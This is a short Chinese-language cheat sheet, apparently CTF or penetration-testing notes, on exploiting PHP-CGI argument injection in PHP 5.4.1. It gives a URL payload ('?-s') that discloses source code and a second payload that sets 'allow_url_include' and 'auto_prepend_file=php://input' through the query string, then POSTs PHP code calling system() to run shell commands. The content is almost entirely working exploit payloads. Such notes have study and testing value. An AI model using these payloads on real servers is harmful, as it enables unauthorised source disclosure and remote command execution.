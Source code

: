 # CGI源码泄露

`PHP` `5.4.1`

1. 利用CGI命令行参数查询源码
    
    > RFC3875 中规定，当请求参数不包含没有解码的=的情况下，要将请求参数作为cgi的参数传入
    > 
    
    ```jsx
    URL http://.../index.php?-s
    ```
    
2. 利用伪协议远程执行命令
    
    > 添加额外请求头
    > 
    
    ```jsx
    Content-Type : application/x-www-form-urlencoded
    ```
    
    ```jsx
    URL http://.../index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a
    ```
    
    > 解码: -d allow_url_include=on -d auto_prepend_file=php://input
    > 
    
    ```jsx
    POST <?php system('whoami');?>
    ```